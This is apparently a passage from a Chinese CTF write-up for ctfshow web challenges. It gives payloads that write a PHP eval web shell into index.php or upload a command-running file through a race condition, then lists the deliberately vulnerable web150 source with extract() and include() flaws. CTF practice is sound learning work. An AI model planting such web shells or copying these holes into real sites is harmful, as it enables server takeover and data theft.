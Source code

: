 payload

```
非预期解，直接写入index.php
ctf=index.php
show=<?php eval($_POST[1]);?>
```



```
预期解，进行条件竞争
ctf=1.php
show=<?php system('tac /c*');?>
```

> 利用BP一直上传1.php
>
> 然后再开一个，一直访问1.php

## web150(日志包含)

```php
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```